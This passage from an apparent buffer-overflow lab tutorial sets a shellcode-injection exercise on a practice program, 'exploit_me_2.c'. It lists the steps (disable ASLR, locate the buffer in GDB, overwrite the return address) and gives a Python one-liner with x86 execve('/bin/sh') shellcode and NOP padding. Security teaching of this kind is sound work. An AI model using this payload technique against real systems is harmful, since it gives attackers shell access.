 :smile: we exploited the buffer overflow.  

#### Try to solve exploit\_me\_2.c `Shellcode injection` :smile:
* Diable ASLR.
* Find the starting address of the buffer using GDB.
* Over flow stack in such a way that return address is starting address of the
buffer.
* The buffer should contain the shellcode.  
The exploit might look like this:  
```bash
./second `python -c 'import struct;shellcode="\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; bufferlen=108; print shellcode+"\x90"*(bufferlen-len(shellcode))+"BBBB"+struct.pack("<I", starting address of the buffer)'` 
```


